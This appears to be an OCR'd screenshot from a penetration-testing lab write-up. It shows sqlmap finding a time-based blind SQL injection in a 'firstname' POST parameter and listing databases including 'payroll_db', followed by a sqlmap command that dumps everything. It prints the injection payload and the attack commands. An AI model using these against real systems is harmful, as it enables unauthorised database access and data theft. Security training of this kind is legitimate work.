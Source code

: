 [13:29:50] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[13:29:50] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[13:30:01] [INFO] POST parameter 'firstname' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' inje
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) valu
[13:30:01] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:30:01] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one 
[13:30:01] [INFO] checking if the injection point on POST parameter 'firstname' is a false positive
POST parameter 'firstname' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 70 HTTP(s) requests:
---
Parameter: firstname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=&firstname=sql' AND (SELECT 3175 FROM (SELECT(SLEEP(5)))erEm) AND 'LLaz'='LLaz&middlename=&lastname=
---
[13:30:16] [INFO] the back-end DBMS is MySQL
[13:30:16] [WARNING] it is very important to not stress the network connection during usage of time-based payloads t
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[13:30:22] [INFO] fetching database names
[13:30:22] [INFO] fetching number of databases
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [
[13:30:22] [INFO] retrieved: 
[13:30:32] [INFO] adjusting time delay to 1 second due to good response times
2
[13:30:32] [INFO] retrieved: information_schema
[13:31:39] [INFO] retrieved: payroll_db
available databases [2]:
[*] information_schema
[*] payroll_db

--------
7) Discover utente:
┌──(kali㉿kali)-[~]
└─$ sqlmap -r save_employs --batch --dbms mysql --threads 10 --dbs  --all
        ___
       __H__                                                                                                        
 ___ ___[,]_____ ___ ___  {1.6.7#stable}                                                                            
|_ -| . [']     | .'| . |                                                                                           
|___|_  [.]_|_|_|__,|  _|                                                                                           
      |_|V...       |_|   https://sqlmap.org                                                                        
